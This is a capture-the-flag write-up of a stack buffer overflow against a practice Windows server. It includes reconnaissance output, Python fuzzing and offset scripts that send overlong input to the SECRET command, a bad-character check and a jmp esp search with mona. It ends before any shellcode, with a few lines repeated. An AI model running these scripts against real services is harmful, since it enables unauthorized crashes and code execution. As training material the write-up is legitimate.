








root@kali:~/CyberTalents/Crashed# nmap -p21,135,139,445,1887,3389,5357 -A -T4 35.156.101.240
Starting Nmap 7.91 ( https://nmap.org ) at 2021-06-12 15:31 BST
Nmap scan report for ec2-35-156-101-240.eu-central-1.compute.amazonaws.com (35.156.101.240)
Host is up (0.014s latency).
PORT STATE SERVICE VERSION
21/tcp open ftp FileZilla ftpd
| ftp-syst:
|_ SYST: UNIX emulated by FileZilla
135/tcp open msrpc Microsoft Windows RPC
139/tcp open netbios-ssn Microsoft Windows netbios-ssn
445/tcp open microsoft-ds Windows Server 2019 Datacenter 17763 microsoft-ds
1887/tcp open filex-lport
3389/tcp open ms-wbt-server Microsoft Terminal Services
5357/tcp open http Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Service Unavailable
So now we have a successful creds let’s use them and see what is inside the ftp.
root@kali:~/CyberTalents/Crashed# ftp 3.122.178.169
Connected to 3.122.178.169.
220-FileZilla Server 0.9.60 beta
220-written by Tim Kosse (tim.kosse@filezilla-project.org)
220 Please visit https://filezilla-project.org/
Name (3.122.178.169:root): ftp
331 Password required for ftp
Password:
230 Logged on
Remote system type is UNIX.
ftp> ls
200 Port command successful
150 Opening data channel for directory listing of "/"
-r--r--r-- 1 ftp ftp 30036 Sep 08 2020 essfunc.dll
-r-xr-xr-x 1 ftp ftp 51635 Sep 10 2020 super_secure_server.exe
Enumeration
I run the super secure server in my local machine and it looks like the following:
It listens for a connection. So we need to know which port that its running on.
we can simply open the CMD and type netstat -ab
It listens on port 13337. we let’s connect to it form our Kali Machine.

We need to find anther command to know more about the application.
a good solution for this simply we can run strings command to see the hidden command in the executable.
root@kali:~/CyberTalents/Crashed# strings super_secure_server.exe
!This program cannot be run in DOS mode.
.text
P`.data
.rdata
0@/4
0@.bs
Starting the super secure server version %s
WSAStartup failed with error: %d
Getaddrinfo failed with error: %d
Socket failed with error: %ld
Bind failed with error: %d
Listen failed with error: %d
Waiting for client connections...
Accept failed with error: %d
Received a client connection from %s:%u
Usage: %s [port_number]
If no port number is provided, the default port of %s will be used.
Welcome to the super secure server! Enter HELP for help
Send failed with error: %d
HELP
HELP
SECRET
Mission Completed
Now, as you see the hidden command is
SECRET that we need it to exploit Buffer flow vulnerability.
Fuzzing
The first phase of exploiting any buffer overflow vulnerability
is first to find the vulnerable command and then to know How many characters that you need to overflow the buffer and crash the application.
We have to create a simple python script for this job which will be:
#!/usr/bin/python3
import sys
from time import sleep
import socket
buffer = 'A' * 100
while True:
try:
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(("192.168.1.6", 13337))
s.recv(1024)
s.send(('SECRET'+ buffer))
s.recv(1024)
s.close()
sleep(1)
buffer = buffer + 'A' * 100
except:
print("Fuzzing Crashed at {} bytes".format(str(len(buffer))))
sys.exit()
This script will send a bunch of A strings that is increasing every time until
we trigger the crash of the application.
Let’s attach our program to the Immunity debugger. Then, run our script.

The application needs 1000 bytes of strings to crash.
Then we need to edit our script to send this unique string.
#!/usr/bin/python3
import sys
from time import sleep
import socket
buffer = "Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4Ai5Ai6Ai7Ai8Ai9Aj0Aj1Aj2Aj3Aj4Aj5Aj6Aj7Aj8Aj9Ak0Ak1Ak2Ak3Ak4Ak5Ak6Ak7Ak8Ak9Al0Al1Al2Al3Al4Al5Al6Al7Al8Al9Am0Am1Am2Am3Am4Am5Am6Am7Am8Am9An0An1An2An3An4An5An6An7An8An9Ao0Ao1Ao2Ao3Ao4Ao5Ao6Ao7Ao8Ao9Ap0Ap1Ap2Ap3Ap4Ap5Ap6Ap7Ap8Ap9Aq0Aq1Aq2Aq3Aq4Aq5Aq6Aq7Aq8Aq9Ar0Ar1Ar2Ar3Ar4Ar5Ar6Ar7Ar8Ar9As0As1As2As3As4As5As6As7As8As9At0At1At2At3At4At5At6At7At8At9Au0Au1Au2Au3Au4Au5Au6Au7Au8Au9Av0Av1Av2Av3Av4Av5Av6Av7Av8Av9Aw0Aw1Aw2Aw3Aw4Aw5Aw6Aw7Aw8Aw9Ax0Ax1Ax2Ax3Ax4Ax5Ax6Ax7Ax8Ax9Ay0Ay1Ay2Ay3Ay4Ay5Ay6Ay7Ay8Ay9Az0Az1Az2Az3Az4Az5Az6Az7Az8Az9Ba0Ba1Ba2Ba3Ba4Ba5Ba6Ba7Ba8Ba9Bb0Bb1Bb2Bb3Bb4Bb5Bb6Bb7Bb8Bb9Bc0Bc1Bc2Bc3Bc4Bc5Bc6Bc7Bc8Bc9Bd0Bd1Bd2Bd3Bd4Bd5Bd6Bd7Bd8Bd9Be0Be1Be2Be3Be4Be5Be6Be7Be8Be9Bf0Bf1Bf2Bf3Bf4Bf5Bf6Bf7Bf8Bf9Bg0Bg1Bg2Bg3Bg4Bg5Bg6Bg7Bg8Bg9Bh0Bh1Bh2Bh3Bh4Bh5Bh6Bh7Bh8Bh9Bi0Bi1Bi2Bi3Bi4Bi5Bi6Bi7Bi8Bi9Bj0Bj1Bj2Bj3Bj4Bj5Bj6Bj7Bj8Bj9Bk0Bk1Bk2Bk3Bk4Bk5Bk6Bk7Bk8Bk9Bl0Bl1Bl2Bl3Bl4Bl5Bl6Bl7Bl8Bl9Bm0Bm1Bm2Bm3Bm4Bm5Bm6Bm7Bm8Bm9Bn0Bn1Bn2Bn3Bn4Bn5Bn6Bn7Bn8Bn9Bo0Bo1Bo2Bo3Bo4Bo5Bo6Bo7Bo8Bo9Bp0Bp1Bp2Bp3Bp4Bp5Bp6Bp7Bp8Bp9Bq0Bq1Bq2Bq3Bq4Bq5Bq6Bq7Bq8Bq9Br0Br1Br2Br3Br4Br5Br6Br7Br8Br9Bs0Bs1Bs2Bs3Bs4Bs5Bs6Bs7Bs8Bs9Bt0Bt1Bt2Bt3Bt4Bt5Bt6Bt7Bt8Bt9Bu0Bu1Bu2Bu3Bu4Bu5Bu6Bu7Bu8Bu9Bv0Bv1Bv2Bv3Bv4Bv5Bv6Bv7Bv8Bv9Bw0Bw1Bw2Bw3Bw4Bw5Bw6Bw7Bw8Bw9Bx0Bx1Bx2Bx3Bx4Bx5Bx6Bx7Bx8Bx9"
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(("192.168.1.6", 13337))
s.recv(1024)
s.send(('SECRET'+ buffer))
s.close()
By running this Fuzzer we will notice in the debugger which string has overwrite the EIP.

root@kali:~/CyberTalents/Crashed# msf-pattern_offset -l 1500 -q 33684232
[*] Exact match at offset 998
Now let’s edit our script to ensure that the EIP will be overwritten.
#!/usr/bin/python3
import sys
from time import sleep
import socket
buffer = "A" * 998 + "B" * 4 + "C" * 498
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.settimeout(5)
s.connect(("192.168.1.6", 13337))
s.recv(1024)
s.send(("SECRET"+ buffer + '\r\n'))
s.close()
checking for bad characters
create bad chracters by python scrript
for i in range(0,256): * print('\\x%02x' % i,end='')
The \x00 byte is a null terminator for strings ,it is always the first bad character
remove from bad chr
send payload again
select ESP >follow in dump > not found bad character

used mona.py script > drop mona.py into the ‘PyCommands’ folder (inside the Immunity Debugger application folder).
https://github.com/corelan/mona
!mona modules
I found super_secure_server.exe and essfunc.ddl
I use essfunc.dll

!mona jmp -r esp -m "essfunc.dll" to locate jmp esp
break point jmp esp (double click) + restart service

create shell code by msfvenom
 break point jmp esp (double click) + restart service

create shell code by msfvenom
break point jmp esp (double click) + restart service

create shell code by msfvenom